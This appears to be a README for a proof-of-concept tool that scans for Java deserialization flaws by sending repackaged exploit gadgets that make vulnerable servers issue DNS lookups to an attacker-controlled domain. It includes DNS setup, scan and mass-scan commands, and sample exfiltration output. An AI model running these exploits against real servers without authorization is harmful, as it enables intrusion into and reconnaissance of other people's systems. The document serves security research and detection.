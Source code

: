 # Break Fast Serial

Proof of concept that demonstrate asynchronous scan of deserialization bugs. It repackage [well knonw exploits](https://github.com/breenmachine/JavaUnserializeExploits) with modified gadget to trigger DNS query.

Detailed explaination : http://gosecure.net/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/

## DNS Chef configuration

The DNS Chef instance is a requirement to see the results of the scan.

This is the typical DNS configuration expected on your domain registrar. It will signify to other DNS server that all subdomain of `attacker.com` must be resolve by the DNS server host at `10.11.12.13`
```
NS scanner.attacker.com dnschef.attacker.com
A dnschef.attacker.com 10.11.12.13
```

 - `10.11.12.13` : The public IP address that is 
 - `attacker.com` : A domain name you own

It is highly recommended to use this [modify version of DNS Chef](./dnschef) that decoded the metadata placed by the scanner.

## Single IP scan

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
python breakfast.py -t 192.168.40.1 -p 7001 -d scanner.attacker.com
```

## Mass Scan

Build a list of ip/hostname with open **HTTP** ports. Use a port scanner such as NMAP to identify port that respond to HTTP.
```
$ cat list_servers.txt
192.168.40.10:80
192.168.40.24:8181
192.168.40.100:7001
192.168.40.100:8080
192.168.40.102:8080
192.168.40.102:8001
```

Launch DNSChef
```
python dnschef.py -q --fakeip 127.0.0.1 -i 0.0.0.0
```

Launch the scanner
```
cat list_servers.txt | python breakfast.py -stdin -d scanner.attacker.com
```

## Expected response

If the vulnerability is confirmed, the expected trace from DNS Chef is as follow.

```
['843', 'jboss', '192.168.40.24', '8181']
[06:16:44] 69.165.172.165: cooking the response of type 'A' for 3834333a6a626f73733a3132372e302e302e313a38313831.scan.fsociety.com to 127.0.0.1
['914', 'jenkins-cli', '192.168.40.102', '8080']
[06:16:45] 173.194.103.14: cooking the response of type 'A' for 3931343a6a656e6b696e732d636c693a3132372e302e302e313a38303830.scanner.fsociety.com to 127.0.0.1
```